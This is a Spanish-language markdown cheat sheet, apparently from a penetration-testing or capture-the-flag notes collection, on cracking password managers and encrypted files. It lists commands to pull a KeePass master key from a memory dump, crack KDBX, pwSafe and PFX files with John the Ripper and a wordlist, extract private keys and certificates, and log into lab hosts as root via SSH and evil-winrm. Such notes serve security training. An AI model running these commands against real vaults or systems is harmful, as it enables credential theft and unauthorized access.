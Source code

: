 ```yaml
---
title: Gestores de contraseña y cifrados
layout: default
---
```



# **Keeper**

Para extraer la masterkey de un dmp de keepass (volcado de memoria)

```python
python3 poc.py -d KeePassDumpFull.dmp
```

Para abrir un kdbx
```bash
keepassxc passcodes.kdbx
```

Para convertir una putty key  en una pem:

```
https://tecadmin.net/convert-ppk-to-pem-using-command/
```

```bash
puttygen private.key -O private-openssh -o id_rsa
```

```bash
ssh -i id_rsa root@keeper.htb
```


# Crack KDBX


```bash
keepass2john CEH.kdbx > CEH.kdbx.hash
```

```bash
john CEH.kdbx.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

```
keepassxc CEH.kdbx
```

# **Crack pwSafe**

```bash
pwsafe2john Backup.psafe3
john hash
```

# **.PFX**

```bash
openssl pkcs12 -in archivo.pfx -info
```

```bash
/usr/share/john/pfx2john.py archivo.pfx > dev_auth.hash
```

Extraer PEM
```bash
openssl pkcs12 -in archivo.pfx -nocerts -out key.pem -nodes
```

Extraer el certificado
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert
```

Por ejemplo para conectarse por secure evil-winrm
```bash
evil-winrm -c key.cert -k key.pem -i <target ip> -P 5986 -S
```